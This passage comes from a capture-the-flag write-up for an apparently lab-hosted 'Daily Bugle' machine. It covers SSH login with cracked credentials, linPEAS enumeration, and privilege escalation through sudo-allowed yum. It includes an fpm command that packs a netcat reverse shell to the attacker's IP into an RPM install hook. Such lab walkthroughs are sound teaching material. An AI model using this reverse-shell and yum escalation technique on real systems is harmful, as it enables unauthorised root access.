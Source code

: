 Executing `suBF` immediately returned a match for the root database credentials. I attempted to ssh from my attack host to the target using the `jjameson` user and was pleased to find a shell.

```bash
root@kali:~# ssh jjameson@10.10.162.223
The authenticity of host '10.10.162.223 (10.10.162.223)' can't be established.
ECDSA key fingerprint is SHA256:apAdD+3yApa9Kmt7Xum5WFyVFUHZm/dCR/uJyuuCi5g.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.162.223' (ECDSA) to the list of known hosts.
jjameson@10.10.162.223's password: 
Last login: Fri Nov 27 17:37:52 2020
[jjameson@dailybugle ~]$ ls
user.txt
```

Upon logging in, I immediately found the first flag at `/home/jjameson/user.txt`.

### Local enumeration again

Now that I had a new low-privilege user I decided to run through enumeration with `linPEAS` again to see if it would turn up anything more useful than the previous scan. I uploaded the script to the users home directory and re-executed it.

```bash
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Interestingly this showed that the user had sudo privileges to execute `yum` which appeared to give the user the ability to install or uninstall anything on the host.

### Exploiting yum for vertical escalation

With the ability to execute yum on the host as a privileged user, I tried to craft a hostile RPM that I could use to trigger a reverse shell. To do this I would first need to craft the hostile package.

#### Crafting a hostile RPM

Referencing [gtfobins](https://gtfobins.github.io/gtfobins/yum/) I crafted the RPM using [fpm](https://github.com/jordansissel/fpm). My plan of attack was to pack a netcat reverse shell into the `before-install` trigger of an empty package.

```bash
root@kali:~/ctf# EXPLOITDIR=$(mktemp -d)
root@kali:~/ctf# CMD='nc -e /bin/bash 10.10.182.144 4444'
root@kali:~/ctf# RPMNAME="exploited"
root@kali:~/ctf# echo $CMD > $EXPLOITDIR/beforeinstall.sh
root@kali:~/ctf# fpm -n $RPMNAME -s dir -t rpm -a all --before-install $EXPLOITDIR/beforeinstall.sh $EXPLOITDIR
Doing `require 'backports'` is deprecated and will not load any backport in the next major release.
Require just the needed backports instead, or 'backports/latest'.
Created package {:path=>"exploited-1.0-1.noarch.rpm"}
```

With the attack staged I, again, setup a listener in metasploit and then staged up the `shell_to_meterpreter` module to migrate to a stable shell in case yum timed out.
